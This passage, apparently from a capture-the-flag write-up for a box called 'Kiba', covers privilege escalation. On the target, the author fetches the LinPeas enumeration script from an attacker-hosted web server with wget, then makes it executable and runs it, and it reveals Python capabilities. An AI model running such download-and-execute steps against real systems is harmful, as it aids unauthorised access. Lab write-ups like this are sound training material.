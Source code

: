 ### Privilege Escalation

Setting up a Python http.server on my attacking machine I can transfer over LinPeas to the target to help with privilege escalation:

```text
kiba@ubuntu:/tmp$ wget http://10.6.61.45/linpeas.sh
--2023-07-25 08:16:08--  http://10.6.61.45/linpeas.sh
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.76K  1.06MB/s    in 0.7s    

2023-07-25 08:16:09 (1.06 MB/s) - 'linpeas.sh' saved [776967/776967]

kiba@ubuntu:/tmp$ chmod +x linpeas.sh
kiba@ubuntu:/tmp$ ./linpeas.sh
```

Cool, LinPeas finds Python capabilities.

![cap.png](../assets/kiba_assets/cap.png)

Which also reminds me of a huge hint that was posted on HTTP/port 80:

![hint.png](../assets/kiba_assets/hint.png)
